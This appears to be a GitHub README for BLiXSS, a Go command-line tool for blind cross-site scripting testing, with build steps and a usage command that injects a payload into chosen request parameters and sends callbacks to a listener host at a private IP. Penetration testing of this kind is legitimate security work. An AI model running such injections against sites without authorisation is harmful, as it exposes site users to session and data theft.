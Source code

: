 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts a malicious payload to inject into web application parameters, allowing you to detect potential vulnerabilities.

### Installation

Clone the repository:

```bash
git clone https://github.com/yourusername/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. I am not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
